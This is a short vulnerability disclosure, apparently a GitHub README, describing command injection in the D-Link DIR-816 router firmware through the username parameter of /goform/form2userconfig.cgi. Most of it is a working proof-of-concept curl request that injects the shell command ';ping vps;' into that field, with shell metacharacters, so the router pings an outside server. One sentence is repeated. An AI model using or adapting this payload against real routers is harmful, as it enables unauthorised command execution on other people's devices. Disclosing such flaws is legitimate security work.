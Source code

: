 # report

##### Describe

​	I found some vulnerabilities in the dir-816 750m11ac wireless router ,**Firmware version is**  DIR816_A1_FW101CNB04

​	The HTTP request parameter is used in the handler function of  /goform/form2userconfig.cgi route, which can construct the user name string to delete the user function. This can lead to command injection through shell metacharacters.

​	If the user can configure the router, it may cause unconditional command execution If the user can configure the router, it may cause unconditional command execution.


##### POC&&EXP

input vps ip

```
curl -i -X POST http://192.168.33.9/goform/form2userconfig.cgi  -d "username=Admin';ping vps;'&oldpass=123&newpass=123&confpass=123&deluser=Delete&select=s0&hiddenpass=&submit.htm%3Fuserconfig.htm=Send"
```
Now it will ping my VPS address
